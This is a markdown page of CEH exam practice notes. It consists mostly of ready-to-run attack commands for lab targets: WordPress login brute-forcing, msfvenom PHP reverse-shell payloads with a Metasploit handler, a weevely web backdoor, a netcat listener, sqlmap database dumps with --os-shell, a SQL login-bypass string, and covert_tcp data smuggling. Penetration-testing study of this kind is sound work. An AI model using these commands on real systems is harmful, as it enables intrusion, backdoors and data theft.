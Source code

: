 # 🧪 Labs

## Labs Walkthrough 🔭

* [2 - Footprinting & Reconnaissance](2-footprinting-and-recon.md)
* [3 - Scanning Networks](3-scanning-networks.md)
* [4 - Enumeration](4-enumeration.md)
* [5 - Vulnerability Analysis](5-vulnerability-analysis.md)
* [6 - System Hacking](6-system-hacking.md)
* [8 - Sniffing](8-sniffing.md)
* [10 - DoS](10-dos.md)
* [13 - Hacking Web Servers](13-hacking-web-servers.md)
* [14 - Hacking Web Applications](14-hacking-web-apps.md)
* [15 - SQL Injection](15-sql-injection.md)
* [17 - Hacking Mobile Platform](17-hacking-mobile.md)
* [19 - Cloud Computing](19-cloud-computing.md)
* [20 - Cryptography](20-cryptography.md)



## [Website Hacking/Password Cracking](https://github.com/infovault-Ytube/CEH-Practical-Notes#website-hackingpassword-cracking) <a href="#user-content-website-hackingpassword-cracking" id="user-content-website-hackingpassword-cracking"></a>

<details>

<summary>Website Cracking</summary>

* SkipFish : Active Recon for Websites

```
skipfish -o 202 http://192.168.1.202/wordpress
```

* Wordpress Site Login BruteForce [Step-By-Step](https://www.hackingarticles.in/multiple-ways-to-crack-wordpress-login/)

```
# Wordpress site only Users Enumeration
wpscan --url http://example.com/ceh --enumerate u 

# Direct crack if we have user/password details

wpscan --url http://192.168.1.100/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt

# Using Metaspoilt
msfdb init && msfconsole
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > set rhosts 192.168.1.100
msf auxiliary(wordpress_login_enum) > set targeturi /wordpress
msf auxiliary(wordpress_login_enum) > set user_file user.txt
msf auxiliary(wordpress_login_enum) > set pass_file pass.txt
msf auxiliary(wordpress_login_enum) > exploit
  
  
```

#### [File Upload Vulnerability](https://github.com/infovault-Ytube/CEH-Practical-Notes#file-upload-vulnerability) <a href="#user-content-file-upload-vulnerability" id="user-content-file-upload-vulnerability"></a>

```
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-port> -f raw > file.php
  
msfdb init && msfconsole
use multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST=attacker-ip
set LPORT= attcker-port
run

# If incase, metaspolit not working use NetCat and shell code below
```

[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) : Use the code, change IP & Port and use it with NetCat listener

```
nc -vnl -p 1234
```

[Weevely](https://www.kali.org/tools/weevely/) : Generate PHP Reverse shell

```
  
weevely generate password123 /home/error.php

# Upload the above error.php to website and use the below cmd to get reverse shell

weevely http://domain.com/error.php password123  
```

#### [SQL Injection](https://github.com/infovault-Ytube/CEH-Practical-Notes#sql-injection) <a href="#user-content-sql-injection" id="user-content-sql-injection"></a>

Login bypass with [' or 1=1 --](https://github.com/mrsuman2002/SQL-Injection-Authentication-Bypass-Cheat-Sheet/blob/master/SQL%20Injection%20Cheat%20Sheet.txt) [N-Stalker](https://www.nstalker.com/) : Select OWASP Policy => Scan Website for Vulnerabilites

SQLMAP

```
#List databases, add cookie values
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
  OR
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  


# List Tables, add databse name
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
  
# List Columns of that table
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
  
#Dump all values of the table
sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
  

sqlmap -u "http:domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --os-shell
 
```

* Some links [DVWA:Blind SQL with SQLMap](https://medium.com/hacker-toolbelt/dvwa-1-9-viii-blind-sql-injection-with-sqlmap-ee8d59fbdea7), [DVWA - High Level with SQLMap](https://www.youtube.com/watch?v=IR1JsaSQLMc\&ab\_channel=Archidote)

</details>

<details>

<summary>Password Cracking</summary>



</details>

<details>

<summary>Cipering / Encrypting/ Hashes</summary>



</details>





<details>

<summary>Covert</summary>

Covert\_tcp [source code](https://github.com/infovault-Ytube/CEH-Practical-Notes/blob/main/covert\_tcp.c) Live Demo [Covert TCP Live Demo-Youtube](https://www.youtube.com/watch?v=bDcz4qIpiQ4)

```
# Compile the Code  
cc -o covert_tcp covert_tcp.c
  
# Reciever Machine(192.168.29.53)  
sudo ./covert_tcp -dest 192.168.29.53 -source 192.168.29.123 -source_port 9999 -dest_port 8888 -server -file recieve.txt  
 
# Sender Machine(192.168.29.123) 
# Create A Message file that need to be transferred Eg:secret.txt
sudo ./covert_tcp -dest 192.168.29.53 -source 192.168.29.123 -source_port 8888 -dest_port 9999 -file secret.txt
```

[Wireshark Capture](https://github.com/infovault-Ytube/CEH-Practical-Notes/blob/main/Covert\_TCP-Capture.pcapng) Hello This 123 -

[![](https://github.com/infovault-Ytube/CEH-Practical-Notes/raw/main/covertCapture.jpg)](https://github.com/infovault-Ytube/CEH-Practical-Notes/blob/main/covertCapture.jpg)

</details>


